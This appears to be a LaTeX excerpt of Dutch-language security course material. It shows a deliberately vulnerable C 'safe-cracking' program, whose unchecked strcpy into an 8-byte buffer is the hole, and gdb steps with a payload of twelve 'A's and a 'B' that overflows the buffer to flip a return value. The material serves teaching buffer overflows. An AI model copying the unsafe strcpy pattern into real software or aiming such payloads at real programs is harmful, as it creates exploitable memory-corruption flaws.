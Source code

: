 \begin{enumerate}
\begin{enumerate}
  		\end{enumerate}
  	\item (gdb) run ``\$(`print ``A''x12 . ``B'' ')''
  	\item (gdb) cont
  	\item (gdb) x/x \&return\_value
  		\begin{enumerate}
  		\item 0xbffff64c: 0x00000042
  		\item return\_value is overschreven en zal geen 0 meer teruggeven.
  		\end{enumerate}
  	\item (gdb) quit
  	\item ./cracking-safe ``\$(`print ``A''x12 . ``B'' ')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_safe(char *pass){
	int return_value = 0;
	char password[8];

	strcpy(password, pass);

	if(strcmp(password, "") == 0)
		return_value = 1;

	return return_value;
}

int main(int argc, char *argv[]) {
	if(argc < 2){
		printf("Fout!\nGebruik: %s <password>\n", argv[0]);
		exit(0);
	}

	if(strlen(argv[1]) == 0){
		printf("Fout!\nHet passwoord mag niet leeg zijn.\n");
		exit(0);
	}

	if(check_safe(argv[1])){
		printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf(" Successfully cracked the safe.\n");
		printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf("Er staan momenteel 4 examens in de kluis:\n\n");
		printf("1) Besturingssystemen 1     P. Geens          [Open]\n");
		printf("2) Besturingssystemen 2     P. Geens          [Open]\n");
		printf("3) Databanken 2             W. Bertels        [Open]\n");
		printf("4) Beveiliging              P. Philippaerts   [Open]\n");

	}else{
		printf("\nSafe still closed.\n");
	}
}
\end{lstlisting}